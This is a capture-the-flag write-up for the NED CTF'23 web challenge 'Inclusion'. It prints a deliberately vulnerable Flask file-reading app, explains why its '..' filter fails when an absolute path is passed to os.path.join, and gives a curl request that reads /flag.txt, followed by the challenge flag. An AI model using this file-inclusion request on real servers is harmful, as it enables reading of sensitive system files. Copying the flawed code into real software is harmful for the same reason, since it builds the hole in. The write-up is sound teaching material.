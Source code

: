 ```yaml
---
title: NED CTF'23 - Web - Inclusion
date: '2023-07-03'
tags: ['ctf', 'web', 'nedctf', 'writeup', 'file-inclusion', 'flask']
draft: false
summary: Inclusion was a very simple file inclusion challenge in which we had to include /flag.txt to read the flag.
---
```


## Challenge Description

"A path to explore, a journey to embark. The challenge is hidden, but not in the dark. Traverse the way, and find your mark. The flag is waiting, for you to hark."

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

[Challenge-Link](http://159.223.192.150:5001/)

![chal-info](/static/writeups/nedctf/web/inclusion0.png)

## Solution

The challenge description is a hint to the challenge. The challenge is a simple file inclusion challenge. Downloading the files, we see the following files are given to us:

![files](/static/writeups/nedctf/web/inclusion1.png)

Now, let's checkout `app.py`

```python:app.py
import os
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    file_name = request.args.get("file")
    if file_name is None:
        return "No file name specified."
    if ".." in file_name:
        return "Invalid file name."
    file_path = os.path.join("/dev/null", file_name)
    try:
        with open(file_path, "r") as f:
            contents = f.read()
            return contents
    except:
        return "The file does not exist or cannot be opened."

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5001)
```

Well, we can see that, we need to provide an argument `file` to the server, which will be used to open a file. Now, the `/dev/null` is being used with `os.path.join`, however, it doesn't have any effect on the file path. So, we can simply use a parameter like `file=flag.txt` to get the flag. However, the `..` is being filtered, so we can't use `file=../flag.txt`. So, let's look at the `Dockerfile` and see where the flag is being stored

```Dockerfile:Dockerfile
FROM python:3.9-alpine

WORKDIR /app
COPY app.py /app/
COPY flag.txt /

RUN pip install flask

EXPOSE 5001
CMD ["python3", "app.py"]
```

Well, the flag is being copied to `/`, so, if we pass the following parameter `?file=/flag.txt`, we can get the flag, let's get the flag:

```bash
$ curl http://159.223.192.150:5001?file=/flag.txt
```

![flag](/static/writeups/nedctf/web/inclusion2.png)

```md
Flag: NCC{l0c4l_f1l3_1nclu5i0n_ex!sts}
```
